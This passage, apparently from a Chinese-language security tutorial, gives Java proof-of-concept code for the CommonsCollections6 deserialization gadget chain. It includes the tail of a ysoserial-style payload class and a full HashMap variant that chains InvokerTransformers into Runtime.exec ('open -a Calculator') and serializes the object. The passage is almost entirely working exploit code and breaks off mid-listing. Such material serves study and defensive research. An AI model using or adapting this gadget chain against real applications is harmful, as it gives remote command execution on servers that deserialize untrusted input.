 ```java
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, entry);

        return map;

    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections6.class, args);
    }
}
```
### HashMap
CC6 HashMap 版 POC:
```java
public class CommonsCollections6 {  
    public static void main(String[] args) throws Exception {  
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};  
        Transformer[] transformers = new Transformer[] {  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[] { String.class,  
                        Class[].class }, new Object[] { "getRuntime",  
                        new Class[0] }),  
                new InvokerTransformer("invoke", new Class[] { Object.class,  
                        Object[].class }, new Object[] { null, new Object[0] }),  
                new InvokerTransformer("exec", new Class[] { String.class },  
                        new String[] { "open -a Calculator" }),  
                new ConstantTransformer(1),  
        };        Transformer transformerChain = new ChainedTransformer(fakeTransformers);  
  
        // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap  
        Map innerMap = new HashMap();  
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);  
  
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");  
  
        Map expMap = new HashMap();  
        expMap.put(tme, "valuevalue");  
  
        outerMap.remove("keykey");  
  
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");  
        f.setAccessible(true);  
        f.set(transformerChain, transformers);  
  
        // ==================  
        // 生成序列化字符串  
        ByteArrayOutputStream barr = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(barr);  
        oos.writeObject(expMap);  
        oos.close();  
  
```